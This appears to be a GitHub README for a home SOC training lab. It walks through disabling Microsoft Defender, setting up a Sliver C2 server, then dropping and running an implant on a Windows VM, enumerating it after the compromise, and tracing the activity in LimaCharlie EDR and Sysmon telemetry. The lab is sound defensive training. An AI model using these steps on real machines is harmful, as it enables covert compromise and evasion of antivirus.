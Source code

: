 # SOC-MOCK
## Objective
This project aimed to build a realistic Security Operations Center (SOC) training environment focusing on practical skills for detecting and responding to cyber threats.
Objectives were enhancing network security by implementing best practices such as disabling unnecessary services, configuring firewalls, and strengthening user account controls. Advanced threat detection tools like Sysmon and LimaCharlie EDR were deployed for real-time analysis. Adversary techniques were simulated, and threat responses were automated to stay ahead of potential risks. Additionally, YARA rules were integrated to enhance malware detection capabilities.
<br><br>

## Components

- **VirtualBox**: Used for creating and managing virtual machines.
- **Ubuntu Server VM**: Used to deploy the Sliver C2 framework, which acts as a simulated attacker tool.
- **Windows VM**: Used as victim endpoint device.
- **LimaCharlie EDR**: An EDR platform used to collect, analyze logs and investigate telemetry from the Windows VM.
- **Sliver C2**: A simulated attacker tool used to create a Command & Control (C2) server on the Ubuntu VM.
- **YARA Rules**: Specific sets of instructions used to identify malware based on patterns.
- **Sysmon**: Windows system service used to monitor and log system activity to the event log.
- **VirusTotal**: A service for analyzing suspicious files and URLs for malware.
- **NAT Network**: Configured in VirtualBox for network simulation.

<details>
  <summary><h2><b>Section 1: Setting up the Virtual Environment</b></h2></summary>
  This section will guide through the setup of virtual environment using VirtualBox (If you want you, can use VMware as well). Configure a NAT network and install two virtual machines – one for Ubuntu Server and another for a Windows 10. <br><br>

   **Step 1: Download and setup Virtualbox**:  
    You can download Virtualbox from here. Setup is pretty straightforward
    <br><br>
   **Step 2: Create a New VM for Windows 10**:  
   Next, set up a new virtual machine in VirtualBox for Windows 10.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 50 GB
    <br><br>
    
   **Step 3: Create a New VM for Ubuntu Server**:  
    Now, set up a new virtual machine in VirtualBox for Ubuntu Server.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 20 GB
   - During OS install, **leave defaults as is**
  ![Image](https://imgur.com/GDfOZmg.png)
    <br><br>
  - After installation it should look like this:
  ![Image](https://imgur.com/9VNGxVp.png)
    <br><br>
       
   **Step 4: Configure Windows VM**:  
    Permanently disable Microsoft Defender so it doesn’t interfere with the fun stuff we’re planning. This is pretty tricky (especially in Windows 11) as Defender will turn itself back on.
1. Disable Tamper Protection
  - Go to "Windows Security"
  - Click “Virus & threat protection”
  - Under “Virus & threat protection settings” click “Manage settings”
  - Toggle OFF the “Tamper Protection” switch. When prompted, click “Yes”
![Image](https://imgur.com/iTuPTwi.png)
  - Toggle every other option OFF as well
2. Permanently Disable Defender via Group Policy Editor
  - Click the “Start” menu icon
  - Type “cmd” into the search bar within the Start Menu
  - Right+Click “Command Prompt” and click “Run as administrator”
  - Run the following command
```
gpedit.msc
```
  - Inside the Local Group Policy Editor
  - Click Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
  - Double-click “Turn off Microsoft Defender Antivirus”
  - Select “Enabled” (If you enable this policy setting, Defender doesn't run, and will not scan for malware or other potentially unwanted software)
  - Click "Apply"
![Image](https://imgur.com/9bsP5Lf.png)
3. Permanently Disable Defender via Registry
  - From the same administrative cmd, copy/paste this command and press Enter
<br>

```
REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

</br>

4. Prepare to boot into Safe Mode to disable all Defender services
  - Click the “Start” menu icon
  - Type “msconfig” into the search bar
  - Go to “Boot” tab and select “Boot Options”
  - Check the box for “Safe boot” and “Minimal”
![Image](https://imgur.com/0K1OBWq.png)
  - Click Apply and OK
  - System will restart into Safe Mode

5. Now, in Safe Mode, we’ll disable some services via the Registry
  - Press the “Win + R"
  - Type “regedit” into the search bar and hit Enter
  - For each of the following registry locations, browse to the key, find the “Start” value, and change it to "4"
![Image](https://imgur.com/IWskQZt.png)
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sense
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdBoot
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisDrv
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisSvc
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter

6. Leave Safe Mode the same way we got into it
  - Uncheck the box for “Safe boot”
  - System will restart into normal desktop environment, hopefully Defender-free
    <br><br>
</details>

<details>
  <summary><h2><b>Section 2: Install Sysmon in Windows VM</b></h2></summary>

This is actually optional in this project, but it’s a must-have analyst tool for getting very granular telemetry on your Windows endpoint. You can read more about it
[here](https://www.learn.microsoft.com/en-us/sysinternals/downloads/sysmon/). 

1. **Launch an Administrative PowerShell console for the following commands:**

- Click the “Start” menu icon
- Type “Powershell” into the search bar within the Start Menu
- Click “Windows PowerShell” and click “Run as administrator”

2. **Download Sysmon with the following command:**
```
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
3. **Unzip sysmon.zip**
```
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
4. **Download SwiftOnSecurity’s Sysmon config**
```
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
5. **Install Sysmon with Swift’s config**
```
C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
![Image](https://imgur.com/eUuEwgD.png)

6. **Check Sysmon64 service is installed and running**
```
Get-Service sysmon64
```
7. **Check for the presence of Sysmon Event Logs**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10
```
  <br><br>
</details>

<details>
  <summary><h2><b>Section 3: Install LimaCharlie EDR on Windows VM</b></h2></summary>

  [LimaCharlie](https://www.limacharlie.io/) 
  is a very powerful SecOps Cloud Platform. It not only comes with a cross-platform EDR agent, but also handles all of the log shipping/ingestion and has a threat detection engine. In free version you can create for up to two systems which is great for projects like this.

1. **Create a free LimaCharlie account**
- LimaCharlie will ask you a few questions about your role. Answer however you like.

2. **Create an organization**

Name: *Anything*

Data Residency Region: *Closest to you*

Demo Configuration Enabled: *Disabled*

Template: *Extended Detection & Response Standard*
![Image](.png)

3. **Click "Add a Sensor"**

- Select Windows
- Provide a description such as: Windows VM - Lab
- Click Create
- Select the Installation Key we just created
![Image](.png)
- Select the "x86-64 (.exe)" sensor
![Image](.png)

- In Windows VM, open an Administrative PowerShell and paste the following commands:
```
cd C:\Users\User\Downloads
```
```
Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
```
- Shift into a standard admin cmd

- Copy the install command provided by LimaCharlie which contains the installation key. Paste this command into your open terminal.
![Image](.png)

- Paste this command into the admin command prompt in your Windows VM

- If everything worked correctly, in the LimaCharlie web UI you should see the sensor reporting in


4. **Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry**

- In the left-side menu, click “Artifact Collection”
- Next to “Artifact Collection Rules” click “Add Rule”
```
Name: windows-sysmon-logs
Platforms: Windows
Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10
```
- Click “Save Rule”

LimaCharlie will now start shipping Sysmon logs which provide a wealth of EDR-like telemetry, some of which is redundant to LC’s own telemetry, but Sysmon is still a very power visibility tool that runs well alongside any EDR agent.

The other reason we are ingesting Sysmon logs is that the built-in Sigma rules we previously enabled largely depend on Sysmon logs as that is what most of them were written for.

Now would be a good time to Snapshot your Windows VM.
<br>
</details>

<details>
  <summary><h2><b>Section 4: Setup Attack System </b></h2></summary>
  I recommend using an SSH client to access the Ubuntu VM so that you can easily copy/paste commands.

1. **Open your CLI**

```
ssh username@[Linux_VM_IP]
```

2. **Now, from within this new SSH session, proceed with the following instructions to setup our attacker C2 server. First, gain access to the root shell to make life easier.**

```
sudo su
```

3. **Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.**

- Download Sliver Linux server binary
```
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
```
- Make it executable
```
chmod +x /usr/local/bin/sliver-server
```
- install mingw-w64 for additional capabilities
```
apt install -y mingw-w64
```
- Create our future working directory
```
mkdir -p /opt/sliver
```

Explore the LimaCharlie web interface to learn more about what it can do!
</details>


<details>
  <summary><h2><b>Section 5: Generate the Command & Control payload </b></h2></summary>
  Either from your SSH session or directly from your Ubuntu Server, take the following actions:
  <br></br>

  1. **Access root shell and change dir to Sliver install**

```
sudo su
cd /opt/sliver
```

  2. **Launch Sliver server**

```
sliver-server
```

  3. **Generate C2 session payload. Use your Linux VM’s IP address**
```
generate --http [Linux_VM_IP] --save /opt/sliver
```

  4. **Confirm the new implant configuration**
```
implants
```

  5. **Now we have a C2 payload we can drop onto our Windows VM. Exit Sliver for now.**
```
exit
```

  6. **To easily download the C2 payload from the Linux VM to the Windows VM, use this python trick that spins up a temp web server**
```
cd /opt/sliver
python3 -m http.server 80
```

  7. **Switch to the Windows VM and launch an Admin PowerShell console to download the implant from Ubuntu server**
```
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```

Now would be a good time to snapshot your Windows VM, before we execute the malware.

</details>
<details>
  <summary><h2><b>Section 6: Start Command & Control Session  </b></h2></summary>

1. **Now that the payload is on the Windows VM, switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback**

- Terminate the python web server by pressing "Ctrl + C"
- Now, relaunch Sliver
```
sliver-server
```
- Start the Sliver HTTP listener
```
http
```
- If you get an error starting the HTTP listener, reboot the VM

2. **Return to the Windows VM and execute the C2 payload from its download location using the same admin PowerShell prompt**
```
C:\Users\User\Downloads\<your_C2-implant>.exe
```

3. **Within a few moments, you should see your session check in on the Sliver server**

4. **Verify your session in Sliver, and note its Session ID**
```
sessions
```
5. **To interact with your new C2 session, type the following command into the Sliver shell**
```
use [session_id]
```
> c0ngratulations! you pwned your Windows VM
6. **Now, run a few basic commands**

- To get info about the session
```
info
```
- Find out the user and learn his privileges
```
whoami
```
```
getprivs
```
> If your implant was properly run with Admin rights, you’ll notice you have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” — if you don't see these privileges, make sure you ran the implant from an Admin command prompt
- Identify implant’s working dir
```
pwd
```
- Examine network connections occurring on the remote system
```
netstat
```
- Identify running processes on the remote system
```
ps -T
```
> Notice that Sliver highlights its own process in green and any defensive tools in red. This is how attackers become aware of what security products a victim system using.
  </details>

<details>
  <summary><h2><b>Section 7: Observe EDR Telemetry</b></h2></summary>

1. **Hop into the LimaCharlie web UI and check out some basic features**

- Click “Sensors” on left menu

- Click your active Windows sensor


- On the new left-side menu for this sensor, click “Processes”


> Explore what is returned in the process tree. Hover over some of the icons to see what they represent

Knowing common processes on a system is very important. As professionals say at SANS, *“you must know normal before you can find evil”* Check out this [“Hunt Evil”](https://www.sans.org/posters/hunt-evil/) poster from SANS.


2. **One of the easiest ways to spot unusual processes is to simply look for ones that are NOT signed**
- The C2 implant shows as not signed, and is also active on the network.


- Notice how quickly we are able to identify the destination IP this process is communicating with.

3. **Now click the “Network” tab on the left-side menu**

- Explore what is returned in the network list. "Ctrl+F" to search for your implant name

4. **Now click the “File System” tab on the left-side menu**

- Browse to the location we know our implant to be running from


5. **Inspect the hash of the suspicious executable by scanning it with VirusTotal**

> “*Item not found*” on VirusTotal doesn't mean that this file is innocent, it just might not that scanned before. This makes sense because you just generated this payload, so of course it’s not likely to be seen by VirusTotal before. So, if you already suspect a file to be possible malware, but VirusTotal has never seen it before, trust your instincts. This actually makes a file even more suspicious because nearly everything has been seen by VirusTotal, so your sample may have been custom-crafted/targeted.

6. **Click “Timeline” on the left-side menu of our sensor. This is a real-time view of EDR telemetry + event logs streaming from this system**

- Read about the various EDR events in the LimaCharlie docs.

- Filter your timeline with known IOCs (indicators of compromise) such as the name of your implant or the known C2 IP address

- If you scroll back far enough, should be able to find the moment your implant was created on the system, and when it was launched shortly after, and the network connections it created immediately after


7. **Examine the other events related to your implant process** 

- you’ll see it is responsible for other events such as “SENSITIVE_PROCESS_ACCESS” from when you enumerated your privileges in an earlier step. This particular event will be useful later on when you will craft your first detection rule

> I recommend spending more time exploring LimaCharlie telemetry to familiarize yourself not only with the known-bad events, but also the abundance of “normal” things happening on your “idle” Windows VM.
  </details>

<details>
  <summary><h2><b>Section :  </b></h2></summary>

  </details>
